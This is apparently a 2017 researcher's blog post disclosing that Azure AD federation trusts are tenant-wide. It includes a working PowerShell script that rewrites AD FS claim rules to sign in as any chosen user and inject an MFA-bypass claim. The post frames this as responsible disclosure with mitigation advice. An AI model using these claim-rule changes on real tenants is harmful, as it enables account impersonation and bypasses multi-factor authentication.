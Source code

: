 +++
title = "Security vulnerability in Azure AD & Office 365 identity federation"
date = "2017-11-16"
lastmod = "2018-07-24"
categories =["blog"]
tags = ["Office365","Security"]
thumbnail = "/images/posts/federation-vulnerability.png"
+++

In this blog, I will describe a security vulnerability I discovered and reported to Microsoft in October. The vulnerability was disclosed in LIVE!360 <a href="https://techmentorevents.com/ecg/live360events/events/orlando-2017/techmentor.aspx" target=”_blank”>TECHMENTOR</a> event in Orlando on Nov 16th 2017.

<!--more-->


# Overview
Federation trust created in Azure AD for a domain is tenant-wide, allowing logging in as any tenant user.

# Description
Identity federation between the on-premise directory and Azure AD can be implemented using different technologies. In this blog, I will use Active Directory Federation Services (AD FS) as an example.

There are two authentication types for domains in Azure AD; managed and federated. The difference between the two is how the users of that domain are authenticated. For managed domains, the users are always authenticated against the Azure AD. User objects and passwords are created directly to the Azure AD, or they can be synced from the on-premises directory. For federated domains, the authentication takes place outside the Azure AD, usually on on-premises AD FS server. This kind of arrangement is called a trust between Azure AD and AD FS.

It is fair to assume that the trust would be a domain-wide, i.e., AD FS could authenticate only users of the domain the trust is created. But no, this is not the case. All trusts are tenant-wide, i.e., any AD FS can authenticate users for any domain the tenant has. Before discussing the details, we need to understand how the federation trust works.

To convert a domain to federated, you just simply run a PowerShell command on your AD FS server:
{{< highlight powershell >}}
Convert-MsolDomainToFederated -DomainName any.o365domain.org
{{< /highlight>}}

Naturally, you must set up and configure the AD FS server before running the command. When you run the command, it sets all the required information about the AD FS to Azure AD for the federated domain. It also creates a relying party trust for the Azure AD to the local AD FS server. When a user is authenticated on AD FS, it creates a security token including claims about the user’s identity. With Azure AD, two claims are used for authentication; *UserPrincipalName* and *ImmutabledId*. The former is self-explanatory, but the latter one is not as obvious. Basically, the *ImmutableId* could be any string, as long as it matches the *ImmutableId* attribute of the user object in Azure AD. Typically the *ImmutableId* is a base 64 encoded GUID of the user object in on-premises AD (to convert GUID to immutable ID see the <a href="/tools/" target=”_blank”>tools</a> page). Converting the domain to federated also creates two claim issuance rules. For short, the rules add the *UserPrincipalName* and *ImmutableId* claims of the logged in user to the security token. When security token is delivered to Azure authentication platform, it checks the token signature, and if it matches the trust, the user is granted access.

So, to authenticate user, the security token must have claims for *UserPrincipalName* and *ImmutableId*, but **only the ImmutableId** must match the user’s information in Azure AD. Moreover, Azure AD does not check which users the AD FS tries to authenticate, it only checks the token signature. As a result, **any AD FS server can authenticate any user of any domain of the tenant!** Yes, you can also authenticate as *.onmicrosoft.com* users and external users, as long as the *ImmutableId* matches. 

For cloud-only users (i.e., those not synced from on-premises AD), *.onmicrosoft.com*, and external users, you need to set the *ImmutableId* using the following command:
{{< highlight powershell >}}
Set-MsolUser -UserPrincipalName "user@mytenant.onmicrosoft.com" -ImmutableId "anystring"
{{< /highlight>}}

To log in as any user you want, you need to alter the default claim issuance rules. The following script prompts you for the UserPrincipalName and ImmutableId of the user and alters the rules. 
{{< highlight powershell >}}
$rules_file="$HOME\adfs_rules.txt"

# Prompt for the UserPrincipalName and ImmutableId
$upn=Read-Host -Prompt "Give the UserPrincipalName"
$immutableid=Read-Host -Prompt "Give the ImmutableId for $upn"

# Create UserPrincipalName rule
$upn_rule="=> issue(Type = ""http://schemas.xmlsoap.org/claims/UPN"", Value=""$upn"");"

# Create Immutable Id rule
$immutableid_rule="=> issue(Type = ""http://schemas.microsoft.com/LiveID/Federation/2008/05/ImmutableID"", Value=""$immutableid"");"

# Create a rule to bypass Multi Factor Authentication (not mandatory)
$bypass_mfa_rule="=> issue(Type = ""http://schemas.microsoft.com/claims/authnmethodsreferences"", Value =""http://schemas.microsoft.com/claims/multipleauthn"");"

# Create the rules file
New-Item $rules_file -type file -Force -Value "$upn_rule`r`n$immutableid_rule`r`n$bypass_mfa_rule"

# Apply the new rules
Set-AdfsRelyingPartyTrust -TargetName "Microsoft Office 365 Identity Platform" -IssuanceTransformRulesFile $rules_file 
{{< /highlight>}}

After altering the rules, login to AD FS using any existing credentials, and you’ll be logged in as the user specified by the rules above.

**Note!** To exploit the vulnerability, you don't need access to organization's AD FS server. You only need Global Admin rights to Azure AD/Office 365, a domain to convert to federated, and a standalone server with AD DS and AD FS.

# Impact
The vulnerability impacts all Office 365 and Azure AD tenants.

# Solution
There is no known solution for the vulnerability. To minimize the risk of exploitation, remove ALL unnecessary Global Admin rights from Azure AD / Office 365 and limit access to existing AD FS server. 

# Update: Microsoft's response
I finally got a response from Microsoft on Feb 8th 2018:

> "Microsoft does not consider the described to be a security threat in Office 365."

Apparently this means that this will not be fixed and the "feature" will remain also in the future. This is alarming to Europen organizations, as their **Office 365 environments are not GDPR compliant**.

I'll be working to find a solution to prevent the exploitation of the vulnerability.